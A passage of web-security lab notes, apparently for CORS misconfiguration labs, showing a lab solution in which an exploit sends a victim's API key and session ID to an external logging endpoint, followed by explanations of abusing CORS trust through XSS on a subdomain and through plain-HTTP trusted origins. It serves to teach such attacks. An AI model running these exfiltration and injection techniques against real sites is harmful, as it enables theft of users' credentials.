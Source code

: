 The `iframe` tag is used because this sandbox generates a `null` origin. Click "Store" and then "View exploit". Go to __Proxy__ > __History__ and observe the `GET /log?key=...` request URI:

```
GET /log?key=%7B%0A%20%20%22username%22%3A%20%22wiener%22%2C%0A%20%20%22email%22%3A%20%22%22%2C%0A%20%20%22apikey%22%3A%20%22{YOUR-API-KEY}%22%2C%0A%20%20%22sessions%22%3A%20%5B%0A%20%20%20%20%22{YOUR-SESSION-ID}%22%0A%20%20%5D%0A%7D HTTP/2
```

This means that the exploit sent an API key inside a query to an external domain. 

Go back to exploit server and click "Deliver exploit to victim". Go to "Access log" and retrieve the victim's API key to solve the lab.

### Exploiting XSS via CORS trust relationships

Even when CORS is properly configured, it still creates a trust relationship between two origins. If a trusted origin is vulnerable to cross-site scripting (XSS), an attacker could exploit that vulnerability to inject JavaScript, which then uses CORS to access and extract sensitive data from the site that trusts the compromised origin. 

### Exploiting XSS via CORS trust relationships - Continued

Consider this request:

```
GET /api/requestApiKey HTTP/1.1  
Host: vulnerable-website.com  
Origin: https://subdomain.vulnerable-website.com  
Cookie: sessionid=...  
```

If the server replies with:

```
HTTP/1.1 200 OK  
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com  
Access-Control-Allow-Credentials: true  
```

An attacker who discovers an XSS vulnerability on `subdomain.vulnerable-website.com` could exploit it to steal the API key. By injecting a malicious script --- such as placing `https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>` --- they could trigger a cross-origin request from the trusted subdomain to retrieve sensitive data. 

### Breaking TLS with poorly configured CORS

Imagine an application that consistently enforces HTTPS but includes a trusted subdomain in its CORS whitelist that only uses plain HTTP. For example, if the application receives this request: 

```
GET /api/requestApiKey HTTP/1.1  
Host: vulnerable-website.com  
Origin: http://trusted-subdomain.vulnerable-website.com  
Cookie: sessionid=...  
```
